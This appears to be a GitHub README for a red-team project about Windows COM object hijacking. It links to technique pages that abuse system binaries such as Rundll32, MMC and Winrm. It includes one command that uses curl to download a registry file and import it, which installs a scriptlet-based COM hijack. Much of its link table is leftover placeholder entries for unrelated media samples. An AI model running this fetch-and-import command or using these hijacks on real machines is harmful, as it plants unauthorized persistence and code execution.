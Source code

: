 # ReaCOM project

<table>
 <tr>
  <td><a href="Classes/Runonce.md">Runonce.exe/COM Hijacking</a></td>
  <td><a href="Classes/URLProtocol.md">URLProtocol/COMHijacking</a></td>
  <td><a href="Classes/Signature-Tools/Openwith.md">Openwith.exe/COMHijacking</a></td>
  <td><a href="Classes/rundll32.md">Rundll32/CLSID</a></td>
 </tr>
 <tr>
  <td><a href="Classes/xwizard.md">xwizard/CLSID</a></td>
  <td><a href="Classes/xwizards.dll.md">DLL/CLSID</a></td>
  <td><a href="Classes/mmc.md">MMC/CLSID</a></td>
 </tr>
 <tr>
  <td><a href="Classes/Signature-Tools/explorer.md">Explorer.exe/COMHijacking</a></td>
  <td><a href="Classes/COMScripetlet.reg">Scripetlet/File</a></td>
  <td><a href="Classes/Powershell.md">Powershell/CLSID</a></td>
 </tr>
 <tr>  
  <td><a href="Classes/Verclsid.md">Verclsid.exe</a></td>
  <td><a href="Classes/Winrm.md">Winrm.vbs</a></td>
  <td><a href="Classes/Winrm.md">Winrm.cmd</a></td>
 </tr>
 <tr>
  <td><a href="Classes/prncnfg.md">Prncnfg.vbs</a></td>
  <td><a href="Samples/CameraGetPreviewFrame">Being implmented</a></td>
  <td><a href="Samples/CameraProfile">Being implmented</a></td>
 </tr>
 <tr>
  <td><a href="Samples/CameraResolution">Being implmented</a></td>
  <td><a href="Samples/CameraStreamCoordinateMapper">Being implmented</a></td>
  <td><a href="Samples/CameraStreamCorrelation">Being implmented</a></td>
 </tr>
 <tr>
  <td><a href="Samples/LiveDash">Being implmented</a></td>
  <td><a href="Samples/D2DPhotoAdjustment">Being implmented</a></td>
  <td><a href="Samples/MediaEditing">Being implmented</a></td>
 </tr>
 <tr>
  <td><a href="Samples/MediaImport">Being implmented</a></td>
  <td><a href="Samples/XamlCustomMediaTransportControls">Being implmented</a></td>
  <td><a href="Samples/MIDI">Being implmented</a></td>
 </tr>
 <tr>
  <td><a href="Samples/Playlists">Being implmented</a></td>
  <td><a href="Samples/PlayReady">Being implmented</a></td>
  <td><a href="Samples/CameraOpenCV">Being implmented</a></td>
 </tr>
 <tr>
  <td><a href="Samples/SimpleImaging>Being implmented</a></td>
  <td><a href="Samples/SpatialSound">Being implmented</a></td>
  <td><a href="Samples/SystemMediaTransportControls">Being implmented</a></td>
 </tr>

</table>
   
  ### ReaCOM  
ReaCOM is the project that has a multiple of contributes to understand component object model COM. It provide you more than one tool to use COM. This project is based on Scriptlet, which it means, All of the tools that you would like to use from my project are based on Scriptllet execution.



ReaCOM targets COM techniques from different types of use and shows some research from different authors, COM object is one of the most popular techniques for the red team in twitter and everywhere, so that we are all here to show some tools can do hijacking COM objects and execute its code by abusing some tools in system operating.
 

### Ackknowledgement
* [Bohops](https://twitter.com/bohops)
* [Matt Nelson ](https://twitter.com/enigma0x3)

* [Casey Smith](https://twitter.com/subTee)


### General Acknowledgement
Thanks everyone for working together to find these great tools.



* [Start using COM technique after watching this](![GIF](https://user-images.githubusercontent.com/25440152/59564365-c880f000-8ffa-11e9-914d-d974baf5dfbc.gif)
)



To enjoy hijacking you need to do the steps below:
* Downloading registry file
* Importing registry file
* Taking a look and learning how Scriptlet works.

![GIF](https://user-images.githubusercontent.com/25440152/59564365-c880f000-8ffa-11e9-914d-d974baf5dfbc.gif)

The command used in the gif above:
```
curl.exe --remote-time https://raw.githubusercontent.com/homjxi0e/ReaCOM/master/Classes/COMScripetlet.reg --write-out rrr.reg --output tttt.reg; echo '' '' ; reg import .\tttt.reg

```
### (References)
* Helpful techniques can help you to know how to use project tools.
* [URL Protocol](https://msdn.microsoft.com/en-us/windows/desktop/aa767914)


